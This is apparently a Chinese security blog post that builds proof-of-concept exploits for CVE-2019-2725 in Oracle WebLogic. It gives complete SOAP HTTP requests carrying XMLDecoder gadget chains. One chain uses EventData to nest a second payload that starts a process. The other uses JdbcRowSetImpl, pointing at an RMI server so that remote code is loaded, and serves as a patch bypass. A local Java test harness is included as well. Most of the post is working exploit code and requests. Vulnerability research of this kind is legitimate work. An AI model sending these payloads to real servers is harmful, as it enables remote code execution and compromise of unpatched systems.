





# # CVE-2019-2725 二次反序列化 EventData Gadget POC/JdbcRowSetImpl POC 构造 - Afant1 - 博客园

> 原文：[`www.cnblogs.com/afanti/p/10816028.html`](https://www.cnblogs.com/afanti/p/10816028.html)

## CVE-2019-2725 二次反序列化 EventData Gadget POC

构造 MapMsgEntity POC 时会爆如下错误，原因畅师傅已经说了，当前类不是 public

具体想跟一下怎么报错的，可以这样操作,报错代码如下：

```
java.lang.NoSuchMethodException: <unbound>=Class.new(byteArray); 
```

全局搜索 NoSuchMethodException，直到执行到这个地方，从调用栈回溯，追踪一下就 ok 了。

漏洞代码如下：

POC 如下，不知道 EventData 类传递 string 类型的参数怎么写。怼出如下数据包了，能够执行命令，这里是一个坑点，还得看下大佬怎么构造的 poc

```
POST /_async/AsyncResponseService HTTP/1.1
Host: 121.195.170.96:7001
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml
Content-Length: 885

<soapenv:Envelope   >   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext >      
<java><class><string>org.slf4j.ext.EventData</string><void>
<array class="java.lang.String" length="1">
  <void index="0">
   <string>"<java version="1.8.0_131" class="java.beans.XMLDecoder"><object class="java.lang.ProcessBuilder"><array class="java.lang.String" length="1"><void index="0"><string>calc</string></void></array><void method="start" /></object></java>"</string>
  </void>
 </array>
</void></class>
</java>
 </work:WorkContext>
 </soapenv:Header> <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope> 
```

运行如下代码就能执行命令

```
package weblogic;
import java.beans.XMLDecoder;
import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.IOException;
public class Test {
    //ByteArrayInputStream 本身操作的是一个数组，并没有打开文件描述之类的，所有不需要关闭流

    public static void main(String[] args) {
        ByteArrayInputStream bais=null;
        StringBuilder sb=new StringBuilder();
        int temp=0;
        int num=0;
        long date1=System.currentTimeMillis();
        try{

            //bais 也就是我们构造好的 payload
            bais=new ByteArrayInputStream("<java version=\"1.8.0_131\" class=\"java.beans.XMLDecoder\"><object class=\"java.lang.ProcessBuilder\"><array class=\"java.lang.String\" length=\"1\"><void index=\"0\"><string>calc</string></void></array><void method=\"start\" /></object></java>".getBytes());
            XMLDecoder decoder = new XMLDecoder(bais);
            decoder.readObject();
            while((temp=bais.read())!=-1){
                sb.append((char)temp);
                num++;
            }
            System.out.println(sb);
            System.out.println("读取的字节数："+num);
        }finally{
            try{
                bais.close();//不需要关闭流的，但是调用 close 没有任何影响，close 不做任何事情
            }catch(IOException e){
                e.printStackTrace();
            }
            new File("d:"+File.separator+"a.txt");//File.separator 是一个文件分隔符，在 windows 和 linux 平台下运行都没有问题
        }
        long date2=System.currentTimeMillis();
        System.out.println("耗时:"+(date2-date1));

    }

} 
```


调试的时候发现代码执行不到.
真的很迷，上面 poc 怎么弹的计算器都不知道。最终 Poc 如下，原来参数可以放在这里`<void><string><![CDATA[POC]]></string></void>`：

```
POST /_async/AsyncResponseService HTTP/1.1
Host: 121.195.170.96:7001
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml
Content-Length: 801

<soapenv:Envelope   >   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext >      
<java><class><string>org.slf4j.ext.EventData</string><void><string><![CDATA[<java version="1.8.0_131" class="java.beans.XMLDecoder"><object class="java.lang.ProcessBuilder"><array class="java.lang.String" length="1"><void index="0"><string>calc</string></void></array><void method="start" /></object></java>]]></string>
</void></class>
</java>
 </work:WorkContext>
 </soapenv:Header> <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope> 
```

代码最终来到这里，RCE.

还有 com.sun.rowset.JdbcRowSetImpl 类最后一个 POC 编写，一定要搞出来啊。

## CVE-2019-2725 二次反序列化 JdbcRowSetImpl Gadget POC 构造

jdk1.6 没有 property 标签，jdk 1.7 以上可以使用。因为绕过需要用到 property 标签赋值，只能用于 weblogic12 版本，weblogic10.3.6 版本会爆如下错误：

```
java.lang.Exception: Unrecognized opening tag: property name="dataSourceName"
Continuing ...
java.lang.Exception: Unrecognized closing tag: property
Continuing ...
java.lang.Exception: Unrecognized opening tag: property name="autoCommit"
Continuing ...
java.lang.Exception: Unrecognized closing tag: property
Continuing ...
java.lang.NoSuchMethodException: <unbound>=Class.new("rmi://localhost:9999/aa", Boolean); 
```

POC 如下：

```
POST /_async/AsyncResponseService HTTP/1.1
Host: 121.195.170.96:7001
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml
Content-Length: 694

<soapenv:Envelope   >   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext >      
<java><class><string>com.sun.rowset.JdbcRowSetImpl</string><void>
<property name="dataSourceName"><string>rmi://localhost:9999/aa</string></property><property name="autoCommit"><boolean>true</boolean></property>
</void></class>
</java>
 </work:WorkContext>
 </soapenv:Header> <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope> 
```

property 标签代替`<void property="">`
之前的 POC

```
 <void class="com.sun.rowset.JdbcRowSetImpl">
        <void property="dataSourceName">
         <string>rmi://121.195.170.127:2222/aa</string>
        </void>
        <void property="autoCommit">
            <boolean>true</boolean>
        </void>
    </void>
</java> 
```

绕过的 POC

```
<java>
<class>
<string>com.sun.rowset.JdbcRowSetImpl</string>
<void>
	<property name="dataSourceName"><string>rmi://localhost:9999/aa</string>
	</property>
	<property name="autoCommit">
	<boolean>true</boolean>
	</property>
</void>
</class>
</java> 
```

漏洞就不调试了，看我之前写过的[`www.cnblogs.com/afanti/p/10222293.html`](https://www.cnblogs.com/afanti/p/10222293.html)

参考链接：
[`paper.seebug.org/909/`](https://paper.seebug.org/909/)
[给 XML 的 property 属性赋 value](https://bbs.csdn.net/topics/370141763)